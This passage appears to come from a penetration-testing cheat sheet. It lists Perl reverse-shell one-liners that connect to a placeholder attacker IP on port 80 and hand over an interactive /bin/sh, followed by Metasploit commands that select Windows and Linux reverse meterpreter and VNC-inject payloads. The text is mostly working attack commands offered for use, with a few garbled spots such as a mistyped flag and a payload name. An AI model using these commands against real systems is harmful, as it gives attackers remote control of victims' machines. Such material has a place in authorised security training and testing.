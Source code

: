 ```bash
perl —e 'exec "/bin/sh";'
```

```bash
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```bash
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

- Windows

```bash
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

- 

# Meterpreter (Metasploit) ([cheet sheet](https://www.tunnelsup.com/metasploit-cheat-sheet/))

### **Windows reverse meterpreter payload**

```bash
set payload windows/meterpreter/reverse_tcp
```

- Windows reverse tcp payload

### **Windows VNC Meterpreter payload**

```bash
set payload windows/vncinject/reverse_tcpf
```

- Meterpreter Windows VNC Payload

```bash
set ViewOnly false
```

### **Linux Reverse Meterpreter payload**

```bash
set payload linux/meterpreter/reverse_tcp
```

- Meterpreter Linux Reverse Payload

### **Meterpreter Cheat Sheet**
